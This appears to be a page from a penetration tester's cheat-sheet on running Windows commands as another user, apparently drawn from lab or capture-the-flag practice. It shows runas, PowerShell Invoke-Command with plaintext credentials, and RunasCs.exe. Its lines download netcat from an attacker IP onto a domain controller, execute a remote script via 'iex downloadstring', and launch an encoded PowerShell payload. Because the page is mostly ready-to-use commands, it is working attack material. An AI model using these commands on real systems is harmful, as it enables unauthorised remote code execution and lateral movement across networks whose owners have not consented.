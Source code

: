 # RunAs

<details>

<summary>CMD</summary>

```bash
runas /u:snovvcrash powershell.exe
```

</details>

<details>

<summary>PowerShell</summary>

```powershell
$cred = New-Object System.Management.Automation.PSCredential('<HOSTNAME>\<USERNAME>', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
Invoke-Command -ComputerName <HOSTNAME> -ScriptBlock { whoami } -Credential $cred
# invoke-command -computername web01.cowmotors-int.com -scriptblock {powershell -enc KABOAGUAd...}

# Using Kerberos --> Dont need specify $creds
Invoke-Command -ComputerName ZPH-SVRDC01.zsm.local -ScriptBlock { powershell iwr http://10.10.14.15:443/nc64.exe -O C:\Windows\Temp\nc64.exe }
```

</details>

<details>

<summary>RunasCs.exe</summary>

```bash
.\RunasCs.exe jamie P@ssw0rd123! "powershell.exe -c iex (new-object net.webclient).downloadstring('http://10.10.14.2/runall.ps1')" -d zsm.local -l 8
```

[https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

Useful when the evil-winrm shell does not have ldap authentication for the user --> can't perform domain actions

</details>
